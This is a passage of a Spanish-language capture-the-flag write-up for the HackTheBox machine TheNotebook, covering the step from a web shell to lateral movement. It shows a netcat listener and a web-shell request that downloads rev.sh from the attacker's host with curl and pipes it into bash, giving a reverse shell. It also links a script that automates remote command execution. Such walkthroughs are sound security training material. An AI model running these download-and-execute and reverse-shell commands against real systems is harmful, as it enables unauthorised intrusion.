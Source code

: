 Colocamos este archivo en la ruta en que tenemos el servidor de `Python` activo, así evitamos servir otro puerto :P 

Nos ponemos en escucha con `netcat`:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y lanzamos como `payload` para validar que tenemos comunicación y ve nuestro código:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh
```

Y simplemente le agregamos `| bash` para que interprete el contenido del archivo y lo ejecute en el sistema:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh | bash
```

YYYYYYYyyyyYye.e:

![320bash_revSH_www](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_www.png)

Tamos dentro de la máquina, peeeerfectowowowo.

...

Es un poco MEHH el estar creando el token, modificando la cookie y todo eso manualmente, así que aprovechemos la oportunidad para automatizar toooodo y obtener ejecución de comandos simplemente pasándole el comando que queremos ejecutar a un **script**:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Ahora sí, sigamos.

...

## Movimiento lateral www-data -> noah [#](#movimiento-lateral-noah) {#movimiento-lateral-noah}

Enumerando el directorio `/var/backups` encontramos un archivo algo llamativo:

```bash
www-data@thenotebook:/var/backups$ ls -la
total 60
drwxr-xr-x  2 root root  4096 Mar 22 08:20 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```
